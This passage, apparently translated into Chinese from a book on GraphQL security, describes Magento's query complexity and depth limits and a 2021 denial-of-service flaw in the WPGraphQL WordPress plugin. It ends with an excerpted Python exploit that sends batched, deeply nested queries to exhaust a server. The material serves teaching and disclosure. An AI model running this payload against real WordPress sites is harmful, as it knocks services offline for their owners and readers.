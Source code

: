图 10-2：Magento 的查询复杂度和查询深度控制的默认值

如您所见，Magento 已实现 `queryComplexity` 值为 `300` 和 `queryDepth` 值为 `20`，这意味着查询的复杂度不能超过 300，而循环查询的嵌套层数不能超过 20 层。

### 基于数组的字段重复批处理（WPGraphQL）

这个漏洞与我们之前讨论的字段重复漏洞非常相似。2021 年 4 月，WPGraphQL（一个用于 WordPress 的 GraphQL 插件，网址：[`www.wpgraphql.com`](https://www.wpgraphql.com)）因缺乏适当的安全控制和不安全的默认配置而遭遇 DoS 漏洞。

WPGraphQL 插件为任何 WordPress 内容管理系统提供了一个生产就绪的 GraphQL API，并通过 WordPress 插件市场提供。图 10-3 展示了这个插件。

默认情况下，WPGraphQL 使得任何安装了该插件的 WordPress 实例都容易受到 DoS 攻击。首先，它允许客户端使用基于数组的批处理，将多个查询合并到一个请求中。此外，该插件在防止恶意查询方面的安全控制非常有限。第三，由于 WordPress 是一个博客平台，通常会为未经认证的客户端（例如博客读者）提供服务，因此 API 的某些功能可以在没有特殊权限的情况下访问。

![](img/f10003.png)

图 10-3：WordPress 的 WPGraphQL 插件

我们自己发现了这个漏洞，并发布了以下的利用代码：

```
`--snip--`
FORCE_MULTIPLIER = int(sys.argv[2])
CHAINED_REQUESTS = int(sys.argv[3])

`--snip--`
queries = []

payload = 'content \n comments { \n nodes { \n content } }' * FORCE_MULTIPLIER
query = {'query':'query { \n posts { \n nodes { \n ' + payload + '} } }'}

for _ in range(0, CHAINED_REQUESTS):
  queries.append(query)

r = requests.post(WORDPRESS_URL, json=queries)
print('Time took: {}'.format(r.elapsed.total_seconds()))
```
